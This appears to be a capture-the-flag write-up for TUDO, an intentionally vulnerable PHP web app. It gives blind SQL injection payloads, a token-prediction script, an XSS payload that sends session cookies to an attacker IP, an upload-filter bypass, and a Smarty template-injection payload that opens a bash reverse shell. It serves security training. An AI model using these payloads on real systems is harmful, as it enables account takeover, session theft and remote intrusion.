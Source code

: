 ## TUDO (Vulnerable PHP Web-App)

https://github.com/bmdyy/tudo

### First Access

To get first access on this challenge, you have two options:
* Explore SQL injection on forgotUsername.php to get password resetToken;
* Create a list with every possible value for this token since you have the seed on utils.php.

<br>

#### SQL Injection
The SQL injection is automated on SQLinjection.py. First you discover user UID with this payload:
 ```
admin' and (select uid from users where username='user1')='%s
```

You can discover that the uid is necessarily based on this line on **forgotpassword.php**:
```
$ret = pg_prepare($db, "createtoken_query", "insert into tokens (uid, token) values ($1, $2)");
```

Now you can extract resetToken with:
```
admin' and (select ascii(substr(token,%s,1)) from tokens where uid=%s limit 1)='%s
```

For some reason you have to compare the character in ascii decimal value.

<br>

#### Predicting Token
The original function to generate token is:
```php
function generateToken() {
        srand(round(microtime(true) * 1000));
        $chars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_';
        $ret = '';
        for ($i = 0; $i < 32; $i++) {
            $ret .= $chars[rand(0,strlen($chars)-1)];
        }
        return $ret;
    }
```

We can create a php file to generate a list for the possible tokens:
```php
<?php

  function generateToken($seed){
      ...
}

	$t_start = $argv[1];
	$t_end   = $argv[2];

	for ($i = $t_start; $i < $t_end; $i++) {
		print_r(generateToken($i) . "\n");
	}
?>
```

This will receive two values from the script that are related to timestamps, since the main function uses microtime.

Now we can create the script **generateTokens.py** to get this possible values and interact with **resetpassword.php** until it finds the correct one.

<br>

### Privilege Escalation
The privilege escalation is based on a XSS on profile description. This will be reflected in the admin page and we may steal your session cookie.

This is the payload and the process is automated on **stealCookie.pyp**:
```
<script>document.write('<img src=http://192.168.159.131:9000/'+document.cookie+' />');</script>
```

On index.php, you can see the difference between on content being sanitize and this vulnerable one not.
```php
# Vulnerable
echo '<td>'.$row[3].'</td>';

# Sanitized
echo '<td><i>'.htmlentities($row[1]).'</i></td>';
```

<br>

### Command Execution
You have 3 main options to get command execution:
* Via file upload
* Via SSTI
* Via deserialization

<br>

#### File Upload
There is a file upload options that do some checks on **upload_images.php**, but they are easily bypassed. This is automated in **rces.py**.

You can bypass **getimagesize** by including a gif header on the payload, use **.phar** to bypass extension check and change Content-Type to image/gif to bypass **allowed_mime**.

<br>

#### SSTI
You can modified the index message from **/admin/update_motd.php**. This is vulnerable to template injection. On index.php, we discover that Smarty framework is being used.

We can execute command with the payload above and this is automated in **rces.py**.
```
{php}exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.159.131/9000 0>&1'");{/php}
```

<br>

#### Deserialization
In progress, didn't understand a thing 😭
